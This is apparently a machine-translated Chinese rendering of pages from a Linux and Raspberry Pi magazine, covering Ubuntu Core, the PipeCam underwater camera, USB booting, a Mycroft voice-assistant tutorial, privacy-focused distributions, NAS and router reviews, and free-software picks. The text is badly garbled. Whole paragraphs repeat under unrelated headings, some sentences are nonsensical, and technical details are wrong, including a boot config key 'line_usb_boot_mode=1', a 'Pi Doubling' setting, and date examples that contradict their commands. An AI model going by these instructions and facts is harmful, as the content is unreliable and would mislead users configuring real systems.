  接下来，你必须将密钥注册到 Ubuntu Store，将其关联到你的账户。你将能够使用商店账户登录。

- 创建模型断言 (model assertion)

  为了构建镜像，你需要创建一个模型断言。这是一个包含设备描述的 JSON 文件，根据你的现有设备对其进行调整。

# UBUNTU CORE 18.04

尽管拥有丰富的特性集，它仍然是强大的。最重要的是，Ubuntu Core 支持大量的设备，从 32 位 ARM 树莓派 1 和 2 到 64 位 Qualcomm 龙板 410 以及 Intel 最新 i7 核心。对于开发板，需要创建 gadget 和模型断言。构建 Core 镜像的过程是非常简单的。内核是 snap

内核驱动、设备驱动程序在 Ubuntu Core 中被封装为 snap。


封装的应用是 snap


最小操作系统封装为 snap


清晰定义的内核和设备 snap

| 图例 | | | |

|---|---|---|---|

| **应用 A** | **应用 B** | **操作系统包** | **共享库** |

| **设备** | | | |

**上述** 诚然 18.04 中会有更多的 snaps，Ubuntu Core 18 目前正在开发中，整合了最新的更改和改进。除了使用 Linux 内核 4.15，新版本还利用了 Ubuntu Core snap 系统的改进，使得 snap 可以保存并存储数据，Delta 减少了 snap 更新的大小，这些更新是可以计划的。


安装更新的过程是

事务性的，火箭永远不会损坏。这一切都是通过免费的 Ubuntu Core 完成，无需管理自己的基础设施。最后，通过 Snapcraft 与世界分享你的 ROS 应用变得简单——这不是一个发行版，但你知道你可以在许多平台上工作。

刷写并测试你的作品

你现在准备好读取并测试你的镜像了！使用像 `dd` 或 GOME Multi Writer 的工具将镜像写入 SD 卡或 U 盘。你将能够使用商店账户刷写，其中包括 SSH 密钥。

# 探索我们的另一本优秀数字书杂志

从科学、历史到技术和工艺，有几十本 Future 杂志可以满足各种口味

## 程序员与制作者的必备指南

实用型树莓派实战


> “外壳的设计非常棘——我遇到了很多泄漏问题”

## 目录

- 72 认识 PipeCam，由 Pi 驱动的水下摄像机

- 74 扩展你的 Pi 3 B+ 存储，我们向你展示如何操作

- 76 使用 Pictoft 创建你自己的语音助手

## Pi 项目

### PipeCam


### PipeCam

使用 Pi 监控海底比你想象的要简单——在解决漏水问题之后。

## Fred Fourie

2014 年，Fred Fourie 看到了一段关于珊瑚为了空间而相互斗争的长期延时视频。这激发了他对生物附着（biofouling）研究的兴趣，即藻类和其他藤等生物的聚集。《追逐珊瑚》和《蓝色星球》等水下纪录片激发了他的好奇心，受 OpenMV 项目的启发，他在 2015 年使用树莓派制作了 PipeCam——低成本水下摄像机。

Fred 是南非开普敦一家工程公司的电子技术员，该公司专门从事海洋科学。

这让我有空去处理软件和电子部分。

说到软件，PipeCam 运行的是什么？我使用树莓派 Model 0 作为核心。我在大多数项目中都默认安装了 `Python`，这样我可以托管“快速查看”数字页面。在 PipeCam 上，我安装了 `i2c-tools` 来设置内存以跟踪时间，并让电子设备自动挂载到特定位置。我使用 Pi 来驱动信息传输，然后使用 `ffmpeg` 添加视频。主脚本是用 `Python` 编写的，这是我的母语言。脚本处理哪个摄像头有足够的空间进行录制，并在进程开始或停止时进行记录。脚本会将一些基础信息输出到日志文件中，并设置我的录制间隔。这并不复杂。

## 喜欢吗？

Fred 曾为南极提供建设服务，并在家里研究过太空天气。他对比生物科学很感兴趣，并且热爱数据集。可以在 Twitter 上 @FredFrie 关注他的冒险。

使用树莓派有什么特殊的理由吗？相比于微控制器，我更熟悉 Linux 系统。对 Pi 环境的熟悉使得快速设置和实验成为可能。出色的社区也提供了支持。

## 你计划如何扩展这个项目？

由于该项目很有前景，下一步是使用 Pi 来增加易用性和耐用性。为了实现这一点，我脑中有三个改进方案：

- 在 Pi 上添加基于摄像头的 Web 界面，用于系统健康检查。

- 集成带有电流和充电电路的电池监控，如果光线足够可以拍照，则使用光敏电阻（LDR）。

## 延伸阅读

Fred 对自然界和电子设备感兴趣。他正忙于学习和目标检测项目，并认为可以进行许多改进。

## 你能解释一下你设计的直原理图吗？

> “没有水下外壳项目……一切都是水中泡影”

进入空心壳体的电缆变成了一个密封的电池供电单元。在首次迭代中，我有一个小型铅酸电池和充电器。后来我使用了带有锂离子电池包的树莓派。这让我以合理的价格获得了更长的供电时间。至于存储，我选择了小电池和 SD 卡。这里有一些树莓派的 HaFS 可以用于此。

项目中最具挑战性的部分是什么？定义水下外壳；我有很多想法。电子设备都是现成的，社区也为硬件找到了许多参考资料。

“水中泡影”。到今年年初，我有一位友好的合作伙伴 Dylan Thomas，他帮助我处理机械结构。Dylan 还建立了一个配备设备的工作室，用来制作压力测试外壳（以及我）。

这完全是利用空闲时间构建项目。在照片中你可以看到 Pi 通过 Arduino 通过继电器控制。Nano 接收传感器的输入并控制 LED。这些输入告诉 Pi 开启。

在 Pi 的 RTC（实时钟）上，你还会看到一个 BME280 传感器探头，监测温度、湿度和检测压力。还有一个滑动开关来选择视频或照片模式。

## 浮动大脑

Fred 先使用 Pi 3，然后是 Pi 2，最后切换到 Pi-Zero 以降低功耗。Pi 上的 `cron` 任务调用 `Python` 脚本来检查连接的 USB 驱动器的可用空间，如果一切正常，它就会拍摄照片或录制视频。

## 防水底盘

PVC 管和端盖保护电子设备免受环境侵侵害。防漏外壳有一个 10mm 的亚克力镜片，可以承受 4 巴的压力。


## 燃料

系统目前没有真正的电源管理，Fred 承认这是一个缺陷，他希望使用 Arduino Nano 来修复它。目前的配置允许连接第二个充电宝。

## 组件列表

- 树莓派 Zero

- 树莓派摄像头模块

- SanDisk USB

- 充电宝

- 开/关开关

- 10mm 亚克力

- 10mm PVC 管

- 10mm PVC 螺丝

- 10mm PVC 止头

## 数据

系统目前没有真正的电源管理，Fred 承认这是一个缺陷，他希望使用 Arduino Nano 来修复它。目前的配置允许连接第二个充电宝。

## 日志记录

系统目前没有真正的电源管理，Fred 承认这是一个缺陷，他希望使用 Arduino Nano 来修复它。目前的配置允许连接第二个充电宝。

## 燃料

系统目前没有真正的电源管理，Fred 承认这是一个缺陷，他希望使用 Arduino Nano 来修复它。目前的配置允许连接第二个充电宝。

## 资源

系统目前没有真正的电源管理，Fred 承认这是一个缺陷，他希望使用 Arduino Nano 来修复它。目前的配置允许连接第二个充电宝。

## 更新内容

随着树莓派 3 B+ 的发布，操作系统已进行更新。`Python` 编辑器 `Thonny` 以及 `PaperFlash` 和 `Pygame` 的升级版本增强了对大屏幕的支持。要使用该功能，请从主菜单选择 Raspberry Pi 配置选项。导航到 System（系统）选项卡并选择“Pi Doubling”选项。这将提供双倍的像素，使所有内容变为原来的大小。此设置对于大屏幕和 HiDPI 显示器效果良好。

## 配置 Wi-Fi

在最新的操作系统中，Wi-Fi 默认禁用。这意味着在 Wi-Fi 激活之前（在某些情况下），你必须手动启用它。打开



## 从存储设备启动

这完成了 OTP 的配置。关闭你的树莓派并移除 SD 卡，该卡已不再需要。取你准备好的 USB 设备并插入其中一个 USB 端口。启动树莓派，几秒钟后，树莓派将开始启动。如果你连接了设备，你将看到完整的启动屏幕，且启动时间可能会比使用 SD 卡慢——这取决于你使用的驱动器。然而，一旦树莓派完成启动，它将以驱动器的速度运行。



## 配置启动模式

为了从 USB 设备启动你的树莓派，你需要编辑配置文件。打开终端并运行以下命令：`echo line_usb_boot_mode=1 | sudo tee -a /boot/config.txt`。这会添加

```bash
echo line_usb_boot_mode=1 | sudo tee -a /boot/config.txt
```


菜单和 Raspberry Pi 配置设置，然后选择 Location（位置）选项卡并设置 Wi-Fi。从列表中选择适用于当前位置的正确网络。

## 检查配置

一旦你编辑了配置文件，输入 `sudo reboot` 来重启动你的树莓派。下一步是检查 OTP 是否已正确编程。打开终端窗口并输入以下：



## PoE HAT

树莓派 PoE（以太网供电）扩展板现已上市。这个新的插件为 3B+ 设计，允许树莓派通过支持 PoE 的以太网网络供电。它具有 802.3af PoE 功能，57V DC，一个用于处理器冷却的 25 x 25mm 静音扇。这一信号是否暗示了树莓派将嵌入更多的 IoT 设备中？你可以从 `https://raspberrypi.org/products/poe` PoE HAT——在写作时，价格待定。


在未来的某个时刻，你可能想要移除用于设置树莓派的 SD 卡。要执行此操作，只需从 `config.txt` 中删除 `line_usb_boot_mode=1` 行，这样树莓派将从 SD 卡启动。由于你现在可以使用此 SD 卡启动你刚刚拔出的树莓派，你可以将卡插入你的主 PC 并用于另一台树莓派。如果它启动了，它将被设置为从 SD 卡启动！打开终端并通过运行命令 `sudo nano /boot/config.txt` 来打开 `config.txt` 文件。向下滚动找到文本行：`line_usb_boot_mode=1` 并将其删除或注释掉。你现在可以在另一台树莓派中使用这张 SD 卡了。


## Mycroft: DIY 语音助手

### 使用 Mycroft 制作开源语音助手

忘掉 Cortana、Alexa、Google Home 和 Siri 吧——我们要走向开源并创建我们自己的语音助手。

### Calvin Robinson

Calvin 是伦敦西北一所全贯制学校的计算与 IT 策略主管。

## 资源

- Mycroft `https://mycroft.ai/get-mycroft`

- 树莓派 3

- microSD 卡，8GB 或更大

- 扬声器

- Etcher `https://etcher.io`


> 上方是 Mycroft Mark II，以免我们在准备好时进入，此时 Mycroft 的 Cortana、Apple 的 Siri、Google 的 Home 和 Amazon 的 Alexa 都进入市场。

随着 Mycroft 的 Cortana、Apple 的 Siri、Google 的 Home 和 Amazon 的 Alexa 都进入市场，用户变得越来越习惯与设备对话并接收语音指令，这种方式……

## 01 下载并烧录

随着 Mycroft 的 Cortana、Apple 的 Siri、Google 的 Home 和 Amazon 的 Alexa 都进入市场，用户变得越来越习惯与设备对话并接收语音指令，这种方式……

## 02 设置

随着 Mycroft 的 Cortana、Apple 的 Siri、Google 的 Home 和 Amazon 的 Alexa 都进入市场，用户变得越来越习惯与设备对话并接收语音指令，这种方式……

## 03 找到你的树莓派

随着 Mycroft 的 Cortana、Apple 的 Siri、Google 的 Home 和 Amazon 的 Alexa 都进入市场，用户变得越来越习惯与设备对话并接收语音指令，这种方式……

## 04 连接到 Mycroft

随着 Mycroft 的 Cortana、Apple 的 Siri、Google 的 Home 和 Amazon 的 Alexa 都进入市场，用户变得越来越习惯与设备对话并接收语音指令，这种方式……

## 05 将你的设备加入 Mycroft

随着 Mycroft 的 Cortana、Apple 的 Siri、Google 的 Home 和 Amazon 的 Alexa 都进入市场，用户变得越来越习惯与设备对话并接收语音指令，这种方式……

## 07 使用 Picrot CLI

一旦一切都就绪，你应该有一个基础的语音助手可以开始——Mycroft, Hey Butler, 现在几点？

### 教程

## Mycroft: DIY 语音助手

Mycroft，请帮帮我。

- Hey Butter，在早上 X 点设置一个闹钟。

- Hey Butter，录音这段内容。

- Hey Butter，[插入搜索词] 是什么。

- Hey Butter，给我讲个笑话。

- Hey Butter，去睡觉。

- Hey Butter，设置一个提醒事项。

- Hey Butter，我有任何提醒事项吗？

- Hey Butter，增大/减小音量。

- Hey Butter，天气怎么样？

GitHub 上有一个活跃的社区随时准备帮助请求，这非常方便，因为当技能（Skills）无法正常加载时，Mycroft 会输出一些 `Python` 错误……

## 09 播放音乐

唯一官方支持的音乐播放应用似乎是 `mpidify`，我们在处理它时遇到了很大困难。在花费了几个小时调整依赖项并错过了截止日期后，我们依然无果。然而，我们在 GitHub 仓库中找到了 `spotify-skill`，它的效果非常好。

通过将 GitHub URL (`https://github.com/spotify/spotify-skill`) 复制到 Mycroft CLI 并使用 `install skill`，你将获得一个导入 Spotify 的新选项。然后“Mycroft, Play Spotify”就会加载我们最近的曲目。问题很简单，但我们认为这是直接向 Mycroft 流传输音乐的唯一方法：使用 `spotify-skill` 或将其他音乐流向 Spotify Connect。这仅是我们的推测，但它在官方 Spotify 设备的许可限制下可以运行。

你也可以跳过我们之前使用 `rmap` 的步骤，或者询问“Mycroft, what is my IP address”。


## 08 添加技能

当然，默认功能都很好，但作为一个在这一方面与众众的的开源程序，Mycroft/MyPi 现在已经有了自己的天地，并提供了多种不同的声音。这些惊人的“技能”——这我们要感谢亚马逊。

回到 Mycroft.ai，是时候探索技能市场了。使用 URL 安装技能非常有用，但 Mycroft 也会识别“install Skill”为一条命令。你将看到一个由社区开发的技能列表，你可以在那里找到安装它们所需的名称和命令，例如，YouTube 也需要一个简单的 YouTube 技能。

## 10 播放播客和电台

幸运的是，流传输播客比流传输音乐容易得多。快速执行“install podcast skill”即可安装插件技能，然后你就可以在 Mycroft.ai 上为你喜爱的播客进行选择，并开始使用了。之后说“Mycroft, play podcast”应该就能解决问题。

我们在网络电台技能上的运气没那么好，出现了许多 PHP 错误，这些错误在 Mycroft 的评论区和日志中可见。社区页面上的每个技能都有一个“status”列来指示其是否就绪，但我们发现了……





## 替换商业语音助手

虽然 Pico 是一个投入了（太多）小时的实验，但我们认为它准备好正式上市了吗？一句话之：没有。核心体验可能还可以，但它极其有限，而且技能无法满足你的体验。即使在闲置几个小时后，它们也很可能无法工作。

如果你正在寻找一个新的爱好并且不介意花几天时间，你从中会获得乐趣。然而，如果你在寻找一个新的语音助手来读新闻、听音乐或听电台，我们仍然被迫推荐商用设备之一。尽管如此，Mycroft II 现在可以在 Indie 上预订。


| 型号 | Mycroft | Mycroft II | Amazon Echo |

|---|---|---|---|

| 平台 | 树派 | 树派 | 自定义硬件 |

| 价格 | $99 | $149 | $49 |

## 测试

```
mycroft-cli-client A command line interface, for discovering skills
```

My Skills Manager，用于安装新技能 `say_to_mycroft` 使用命令行执行命令

`speak`。对着测试麦克风说话。录制一个样本并回放到你的麦克风。

## 13 成为支持者


Mycroft 提供了一种可选的订阅，每月 10.99 美元。这些订阅的主要目的是支持开发团队，支持者可以获得专属更新。

截至 2017 年，一种新格式仅供支持者使用。此外，4 月份还有与 John Mercury 本人一起的小组会议。他的使命声明写道：

> 我们想展示你有多看重你的支持。变得更好、更有培养、更强大。你的贡献让我们更接近创建通用人工智能的终极目标，这是属于大家的。

### 14 那么，这值得吗？

这样的设置有优也有缺点。你可以拥有创建自己的技能的自由，或者加入这个出色的社区。


### Mycroft 的其他版本

目前 Mycroft 有几种口味可用。技术上称为 Mycroft 的仅包含免费版。你需要添加自己的树莓派来运行它，此外我们可以制作它。

如果你更喜欢现成的版本，Mycroft I 自带扬声器。

### Subgraph OS

成功地在易用性和安全性之间取得了平衡

### Whonix

一个即插即用的操作系统，以两个由 KDE 驱动的虚拟机提供。




- 你可以使用直观的 Subgraph Firewall 来监控和过滤单个应用程序的出站连接
- Whonix-Workstation 上的 `iptables` 规则强制其连接到虚拟局局域网并将所有流量重定向到 Whonix-Gateway

### 它如何安全？

Subgraph 自带有一个经过 PaX 补丁集加固的内核，使得内核和用户态都变得非常出色。该发行版还强制用户加密其文件。此外，Subgraph 在 OS 安全沙箱之外运行许多应用程序，以限制风险。

Whonix 基于隔离安全的概念，采用了两个虚拟机的形式。这种设计背后的思想是将环境与互联网接入点隔离开。在此，Whonix 将所有流量通过 Tor 路由。因此，如果其中一台机器被破解，也不会影响另一台。

### 匿名性如何？

该发行版通过通过 Tor 网络路由你的互联网流量来实现匿名化。它还使用了像 TorTorrent 的匿名点对点文件共享工具。此外还有 Subgraph Firewall，它对每个应用程序的出站连接应用过滤器，用于监控应用程序的非预期连接。

Whonix 使用 Tor 来隐藏你的 IP 地址并绕过审查。该发行版还整合了匿名点对点即时消息以及 Thunderbird 和 TorBird 这种隐私友好客户端组合。Whonix 默认不包含 Tor，但有一个脚本可以从一组稳定、加固的发布列表中下载。

### 作为桌面好用吗？

Subgraph 包含了一些日常使用的的主流应用程序，例如 Firefox 和 VLC。在 Subgraph 上，这些程序经过沙箱系统的良好准备，以提供额外的隐私保护。该发行版还配置为从自己的仓库和 Debian 仓库获取包。

Whonix 包含了 LibreOffice，但是针对 Whonix 的。还有用于管理密钥的 KPG，许多应用程序都针对隐私进行了优化。有很多仓库，你必须选择设置哪一个。它不包含图形包管理器，但你可以使用 Whonix-script 来搜索应用程序。

### 安装与设置

Subgraph 包含一个 Debian 安装程序，帮助你在安装期间设置 LVM 卷。该发行版一旦连接就会建立与 Tor 网络的连接 - 但默认不包含 Tor 浏览器，首次运行时会自动下载。

Whonix 没有图形化安装程序。相反，该项目提供了几种部署方法，其中最方便的是获取适用于 VirtualBox 的虚拟机。在启动时，两个虚拟机都会引导你通过一个简短的设置向导完成某些组件设置，例如仓库。

### 总结

Subgraph 尽全力确保从内核到用户态的一切都是不可利用的。它还整合了一系列以隐私为中心的应用以及桌面应用。

Whonix 是一个可以在独立虚拟机提供的桌面发行版。它通过使用虚拟化程序将环境与获取互联网的环境隔离来确保安全和隐私。

### 简要：对比结论

| 特性 | Kodachi Linux | Qubes OS | Subgraph OS | Whonix |
|---|---|---|---|---|
| **如何安全？** | 使用补丁内核而非加固内核，并用 Firefox 对应用程序进行沙箱处理 | 使用 Xen 将桌面和应用划分为相互隔离的虚拟“安全域(qubes)” | 在安全沙箱内包含一个加固内核和许多常用程序 | 将互联网网关与运行应用程序的工作站隔离 |
| **匿名性如何？** | 将所有流量首先通过 VPN 路由到互联网，然后通过 Tor | 它的架构确保了隐私，但这并非其核心特长 | 通过一个绑定隧道路由所有流量，并带有一系列以隐私为中心的应用 | 通过 Tor 路由所有流量，并带有多种隐私应用和工具 |
| **作为桌面好用吗？** | Xfce 桌面轻量级，并为各类用户提供开源应用 | 只要你遵循它的特定需求，它的运行就像与其他系统一样 | 整合了一些可以轻松清理的程序 | 它的 KDE 桌面受到限制，你需要从命令行添加应用 |
| **安装与设置** | 使用原始的卸载程序，这是 Kodachi 最弱的环节 | 安装发行非常直观，但使用的是易于操作的 Anaconda 安装 | 使用修改过的 Debian 发行版，在使用前需要大量设置 | |
| **总结** | 使用 Firefox 保护其应用集合，但安装很繁琐 | 确保被破解的应用程序不会导致整个安装面临风险 | 为你的应用程序提供安全环境以保护隐私 | 一种易于部署的发行版，明智地确保了你的安全和隐私 |

### 获胜者是...

#### Qubes OS

在这些竞争者之间，选择的余地很小，它们都在为保护用户免受漏洞和利用做出贡献。Linux Kodachi 和 Subgraph OS 的相似之处在于，它们将应用程序从不同的位置隔离，每个位置在系统上都有自己的微小足迹，这使得它们在各自的领域表现出色。两个项目都使用虚拟化技术来保持用户匿名。

该发行版通过 Tor 网络路由你的互联网流量来实现匿名化。它还使用了像 TorTorrent 的匿名点对点文件共享。此外还有 Subgraph Firewall，它对每个应用程序的出站连接应用过滤器，用于监控应用程序的非预期连接。

Whonix 使用 Tor 来隐藏你的 IP 地址并绕过审查。该发行版还整合了匿名点对点即时消息以及 Thunderbird 和 TorBird 这种隐私友好客户端组合。Whonix 默认不包含 Tor，但有一个脚本可以从一组稳定、加固的发布列表中下载。

Subgraph 包含了一些日常使用的主流应用程序，例如 Firefox 和 VLC。在 Subgraph 上，这些程序经过沙箱系统的良好准备，以提供额外的隐私保护。该发行版还配置为从自己的仓库和 Debian 仓库获取包。

Whonix 包含了 LibreOffice，但是针对 Whonix 的。还有用于管理密钥的 KPG，许多应用程序都针对隐私进行了优化。有很多仓库，你必须选择设置哪一个。它不包含图形包管理器，但你可以使用 Whonix-script 来搜索应用程序。

Subgraph 包含一个 Debian 安装程序，帮助你在安装期间设置 LVM 卷。该发行版一旦连接就会建立与 Tor 网络的连接 - 但默认不包含 Tor 浏览器，首次运行时会自动下载。

Whonix 没有图形化安装程序。相反，该项目提供了几种部署方法，其中最方便的是获取适用于 VirtualBox 的虚拟机。在启动时，两个虚拟机都会引导你通过一个简短的设置向导完成某些组件设置，例如仓库。

Subgraph 尽全力确保从内核到用户态的一切都是不可利用的。它还整合了一系列以隐私为中心的应用以及桌面应用。

Whonix 是一个可以在独立虚拟机提供的桌面发行版。它通过使用虚拟化程序将环境与获取互联网的环境隔离来确保安全和隐私。

# 评 TerraMaster F4-420 NAS & Trendnet TEW-817DTR


- 优点
提供坚固的外壳，安装方便，且强大的平台运行非常静音。
- 缺点
未提供硬盘锁，且应用选择有限，总体支持较差。
- 总结
足够坚固的结构和硬件设计（如果你喜欢圆形银色表面）可以弥补对操作系统和应用程序关注的不足。目前问题在于文档匮乏、应用有限以及 CPU 效能难以充分发挥。

## 硬件

### TerraMaster F4-420 NAS

强大的 NAS 硬件，提供软件开发、文档支持和支持

| 价格 | 规格 |
| --- | --- |
| £400 ($460) | 网站 |
| www.terramaster.com | CPU 英特尔赛龙 J1900 双核 |
| | RAM 4GB DDR3 |
| | 兼容 4 x 3.5 英寸或 2.5 英寸 SATA 6Gb/s, SATA III 硬盘，最高 6Gb/s |
| | 读写 220MB/s |
| | 端口 2 x USB 3.0, 2 x 以太网接口(100/1000/1000Mbps) |
| | 支持 RAID 0, 1, 5, 6, 10, JBOD |
| | 网络协议 SMB, AFP, NFS, iSCSI, FTP |
| | 尺寸 227 x 225 x 138 mm |
| | |

TerraMaster 是一种 NAS 解决方案，正面垂直安装了 3.5 英寸硬盘位（无锁）。设备有两个 USB 端口——一个 USB 3.0 和两个千兆以太网端口。后面还有两个风扇，性能取决于硬件。如果你有 2TB 的硬盘，潜力实现 4TB 的存储空间，但前提是你愿意放弃任何形式的故障冗余。

这涉及开发一个基于 Java 的桌面应用、在网络上搜索 NAS 以及更新 TerraMaster 操作系统 (TOS) 3.1。文档可以帮助上手，但 TOS 运行可能缓慢，不过一旦设置好 NAS，从功能角度来看它并没有特别之处。

TOS 提供了一些基础的内置应用，包括 MySQL、Plex Media Server、Cloud、WordPress 和照片应用。F4-420 是第一个——

TerraMaster 的硬件本身没问题——它只是需要一个更好的软件平台来充分发挥其性能，以及持续的开发周期来增强用户体验。

在 Linux 上获取我们的测试单元相对顺畅。在软件方面，

- Mark Provenance

### 优点

对于一个支持 WISP 的无线路由器来说，价格实惠，同时对旅行者来说具有极高的便携性。

### 缺点

需要一个收包，制造商需要解决门户认证（captive portal）限制才能使其近乎完美。

### 总结

这款紧凑型路由器价格便宜，易于携带和部署。它使用 WISP 技术与提供商建立服务协议，允许在有覆盖的区域实现独立连接。


## 硬件

### Trendnet TWI-817DTR

为寻找稳定连接的商务旅行人士设计的便携无线路由器

| 价格 | 规格 |
| --- | --- |
| £29 ($35) | 网站 |
| www.trendnet.com | IEEE 802.11a, 802.11b/g/n/ac |
| 模式：路由器，WISP | 硬件接口 |
| 1000 Mbps 路由器、AP-交换模式、WISP 增强和重置、LED 指示器、可拆卸电源插、双 UK 特性：双频连接、SSID 支持到多播转换器、WISP 和 VPN 支持 | 尺寸：58x84x39 mm |

许多酒店在房间内提供有线连接；Trendnet TWI-817DTR 是一个利用这一特点的便携设备，在口袋大小的外壳内实现了 AC750 无线路由器的功能。正面有一个开关，用于 WISP 增强和重置。Trendnet 还还了适用于美国、英国和欧洲的电源适配器，尽管没有收纳袋。

- 第一种是作为无线接入点；两者的 Wi-Fi 连接虽然基础但可用，对于在美国的用户来说，可以作为-ISP 连接到无线互联网服务商。唯一的注意事项是互联网登录页面。Wisp 模式也可以兼作标准扩展中继器，因此你可以用它来扩展现有的无线网络。
- 许多用户在寻找在酒店房间内可工作的 Wi-Fi，因此我们测试了一个被实体墙包围的汽车旅馆的一楼，信号在整个过程中保持强劲。在短范围内，5GHz 频谱更优，但 2GHz 和 4GHz 都在相邻路由器的覆盖范围内。任何以太网源都是 10Mbps/1000Mbps，一个通过无线连接，另一个通过以太网连接。

在安全性方面，Trendnet 提供了访客访问、多 SSID 支持和家长控制。还支持 PPTP/L2TP/VPN 隧道、虚拟服务器和 DMZ。尽管文档没有建议，它支持 WEP、WPA 和关键的 WPA2 企业。

TWI-817DTR 在访客访问、多 SSID 支持和家长控制方面表现良好。还支持 PPTP/L2TP/VPN 隧道、虚拟服务器和 DMZ。尽管文档没有建议，它支持 WEP、WPA 和关键的 WPA2 企业。

TWI-817DTR 正好实现了 Trendnet 所称的功能：

- Mark Premiere

# 评测 MX Linux 17.1

## MX Linux 17.1


# 发行版 (DISTRO)

# MX Linux antiX 和 MX 社区的共同努力，该发行版日益受欢迎。

最新版本包含了来自 Debian 仓库的应用程序，某些软件包不在任何一个仓库中，但是从官方开发网站或仓库获取的，并与 MX Linux 无缝工作。

最新版本是 17.1，更新工具现在可以通过这些方法启用不需要的安装-

更新工具是该发行版自定义工具的一部分，用于帮助用户管理安装。这些工具在控制面板下运行，涵盖广泛的功能，包括备份工具、编码工具、安装工具、拷贝工具、USB 制作器和快照工具。

# 评测

## 最新免费开源软件

## 桌面搜索

### Searchmonkey JAVA 3.2.0

以图形化界面获取 CLI 搜索工具的力量

大多数文件管理器都带有“查找”功能来帮助你搜索。但它们缺乏强大的过滤机制，而这些机制通常只在命令行中可用。Searchmonkey JAVA 是一款工具，它通过将功能丰富的资源构建器带到桌面，弥补了文件管理器功能与 CLI 工具之间的鸿沟。

你可以使用 Searchmonkey 通过界面轻松地构建复杂的搜索查询。它可以它可以帮助你通过文件名、类型、修改日期和最后访问日期进行搜索。你还可以通过内容搜索文件，并包含许多其他高级选项的搜索结果。Tab 选项具有诸如跳过二进制文件和限制结果中的文件数量等选项。当你使用过滤选项时，Searchmonkey 需要 JAVA 1.8 或更高版本。你可以无需安装直接使用。访问我们网站的“下载”部分，获取包含所有依赖的 JAR 文件，并使用 `java -jar command` 运行它。



> 开发者可以使用该应用程序快速扫描一组代码文件中的高亮部分，例如：

- 优点：帮助桌面用户花费较少精力和时间创建复杂强大的搜索查询。
- 缺点：界面可能看起来有点令人生畏，而且作为一个 Java 应用，它显得格格不入。
- 非常适合……：从桌面构建复杂的查询。http://searchmonkey.embeddeddig.it

## 媒体管理器

### beats 1.4.6

从命令行组织你的媒体库


键盘用户热爱命令行，现在他们甚至可以将他们的库导入 `beats`。除了管理库之外，`beats` 还可以修复音乐文件的文件名和元数据，获取封面艺术和标签。更棒的是，虽然 `beats` 在许多流行发行版的存储库中可用，但你可以使用 Python 的包管理器 `pip` 安装最新版本，这可能需要为该工具创建一个配置文件花费一些时间。

一旦安装，`beats` 将导入你的音乐文件并将它们设置为配置文件中的权限。该实用程序还通过引用在线 `MusicBrainz` 数据库，对任何元数据中的过滤器和间隙进行处理。一旦完成导入，你就可以使用 `beats` 命令来查询集合了。例如，`beats -ls 1998*` 返回 1983 年到 1985 年之间的结果。`beats` 还有一个 Web UI。要使用 Web 界面，需要 `Flask` 框架，你可以通过 `pip install flask` 安装它。然后你可以通过访问 `http://localhost:8337` 在配置文件中启用 Web 界面，以便通过浏览器搜索音乐。

点击搜索结果查看其元数据，包括歌词。如果你启用了插件并获取了它们，Web 界面还有播放和暂停音乐的基本控制功能。

- 优点：允许你通过单条命令排序和分类你的音乐收藏，包括封面和标签。
- 缺点：需要手动编写一个配置文件来完成它需要的功能，这会花费一些时间。
- 非常适合……：从 CLI 相对轻松地对大量的音乐文件集合。`http://beats.io`

## 编程语言

### Gambas 3.1.0

#### 一种构建 Linux 图形应用的便捷方式

`Gambas` 是“`Gambas Almost Means Basic`”（`Gambas` 几乎意味着 Basic）的递归缩写，它是 Basic 编程语言的一种面向对象的方言。`Gambas` 的目的是提供多态性，而没有 C++ 或 Java 的复杂性。事实上，`Gambas` 使得使用 `Qt` 或 `GTK+` 构建图形应用变得非常简单，它还包含一个 GUI 设计器，帮助你创建一个用 `Gambas` 编写的 IDE。

你可以用它开发网络应用以及 `SDL`、`SQLite` 和 `OpenGL` 图形。它也可以作为脚本语言使用。`Gambas IDE` 暴露了所有快速编程的功能。除了图形化工具外，`Gambas` 还与 `MySQL`、`SQLite` 和 `PostgreSQL` 等许多数据库配合。你可以使用 IDE 从 `Fedora`、`Ubuntu` 和 `Slack` 等各种发行版安装包。

